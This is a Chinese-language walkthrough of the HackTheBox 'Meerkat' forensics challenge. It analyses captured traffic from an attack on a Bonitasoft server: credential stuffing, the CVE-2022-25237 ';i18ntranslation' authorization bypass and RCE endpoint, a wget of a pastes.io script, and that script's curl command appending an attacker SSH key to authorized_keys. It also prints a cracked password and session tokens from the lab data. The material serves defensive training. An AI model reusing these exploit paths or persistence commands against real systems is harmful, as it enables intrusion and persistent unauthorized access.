


# Meerkat

:::info Sherlock Scenario

As a fast growing startup, Forela have been utilising a business management platform. Unfortunately our documentation is scarce and our administrators aren't the most security aware. As our new security provider we'd like you to take a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

作为一个快速发展的初创企业，Forela 一直在利用一个商业管理平台。不幸的是，我们的文档资料有限，我们的管理员也不太重视安全。作为我们的新安全服务提供商，我们希望你能看一看我们导出的一些 PCAP 和日志数据，确认我们是否受到了（或者没有受到）侵害。

:::

## 题目数据

[题目附件 - meerkat.zip](./meerkat.zip)

:::info Password

hacktheblue

:::

## Task 1

> 我们相信我们的商业管理平台服务器已经遭到了入侵。请确认正在运行的应用程序名称。

在流量包中，使用以下语句进行筛选

```plaintext
(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http
```

在 url 部分，可以发现这份字符串

```plaintext
bonita
```

经过搜索，可以定位到这个 `bonitasoft` 这个平台

```plaintext title="Answer"
bonitasoft
```

## Task 2

> 我们相信攻击者可能使用了暴力破解攻击类别的子集 - 所进行的攻击名称是什么？

查看后续的一些 http 包，可以发现产生了大量失败的登录请求，可以怀疑攻击者正在尝试进行凭据爆破

```plaintext title="Answer"
Credential Stuffing
```

## Task 3

> 被利用的漏洞是否有 CVE 编号 - 如果有，是哪一个？

:::note

为了分析方便，这里将

```plaintext
(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http
```

筛选器得到的分组结果导出为新的 pcap 文件，再进行分析

可能会导致 tcp 流的编号与原始 pcap 包不一致

:::

根据后续的流量，可以发现攻击者登陆成功后 POST 形式发送了一个 zip 文件



并且后续进行了利用



根据所得到的信息，可以定位到 `CVE-2022-25237` 这个漏洞编号

```plaintext title="Answer"
CVE-2022-25237
```

## Task 4

> 攻击者的利用是通过在 API URL 路径上附加了哪个字符串来绕过授权过滤器的？

将攻击者访问的 api url 请求进行提取

```plaintext
/bonita/API/portal/page/;i18ntranslation
/bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8
/bonita/API/portal/page/133;i18ntranslation
```

可以分析出字符串为 `i18ntranslation`

```plaintext title="Answer"
i18ntranslation
```

## Task 5

> 在凭证填充攻击中使用了多少组用户名和密码的组合？

简单统计一下 http POST url=="/bonita/loginservice" status_code==204 的请求即可

```plaintext title="Answer"
56
```

## Task 6

> 哪个用户名和密码组合成功了？

查看凭据爆破的最后一次请求

```plaintext
POST /bonita/loginservice HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Cookie: x=x
Content-Length: 59

username=seb.broom@forela.co.uk&password=g0vernm3nt&_l=enHTTP/1.1 204
Set-Cookie: bonita.tenant=1; SameSite=Lax
Set-Cookie: JSESSIONID=772FE3C83B1A0815EC3AFA1C098B40E9; Path=/bonita; HttpOnly; SameSite=Lax
Set-Cookie: X-Bonita-API-Token=d350c469-2660-4504-9bea-4dbfa41ed9a4; Path=/bonita; SameSite=Lax
Set-Cookie: BOS_Locale=en; Path=/; SameSite=Lax
Date: Thu, 19 Jan 2023 15:39:17 GMT
Keep-Alive: timeout=20
Connection: keep-alive
```

即可得到

```plaintext
username: seb.broom@forela.co.uk
password: g0vernm3nt
```

```plaintext title="Answer"
seb.broom@forela.co.uk:g0vernm3nt
```

## Task 7

> 如果有的话，攻击者使用了哪个文本分享网站？

在流量中，发现这么一个会话

```plaintxt
GET /bonita/API/extension/rce?p=0&c=1&cmd=wget https://pastes.io/raw/bx5gcr0et8 HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: JSESSIONID=745EE4F7243DA99264F07781FBB9B4E3; X-Bonita-API-Token=1ccb3fac-8abd-4cc0-a52e-bb5811198cdf; bonita.tenant=1; BOS_Locale=en

HTTP/1.1 200
Cache-Control: no-store, no-cache, must-revalidate, proxy-revalidate
Date: Thu, 19 Jan 2023 15:38:53 GMT
Accept-Ranges: bytes
Server: Restlet-Framework/2.3.12
Content-Type: application/json;charset=UTF-8
Content-Length: 544
Keep-Alive: timeout=20
Connection: keep-alive

{"p":"0","c":"1","cmd":"wget https://pastes.io/raw/bx5gcr0et8","out":"--2023-01-19 15:38:52--  https://pastes.io/raw/bx5gcr0et8\nResolving pastes.io (pastes.io)... 66.29.132.145\nConnecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 113 [text/plain]\nSaving to: \u2018bx5gcr0et8\u2019\n\n     0K                                                       100% 57.8M=0s\n\n2023-01-19 15:38:53 (57.8 MB/s) - \u2018bx5gcr0et8\u2019 saved [113/113]\n\n","currentDate":"2023-01-19"}
```

```plaintext title="Answer"
pastes.io
```

## Task 8

> 请提供攻击者用于在我们主机上获得持久性的公钥文件名。

对上文流量中使用的远程载荷 `https://pastes.io/raw/bx5gcr0et8` 下载下来进行分析

```shell title="https://pastes.io/raw/bx5gcr0et8"
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

```plaintext title="Answer"
hffgra4unv
```

## Task 9

> 您能确认攻击者修改的文件以获取持久性吗？

上文的载荷中就有

```plaintext title="Answer"
/home/ubuntu/.ssh/authorized_keys
```

## Task 10

> 您能确认这种持久性机制的 MITRE 技术 ID 吗？

Google Search: `MITRE technique authorized_keys`

```plaintext title="Answer"
T1098.004
```
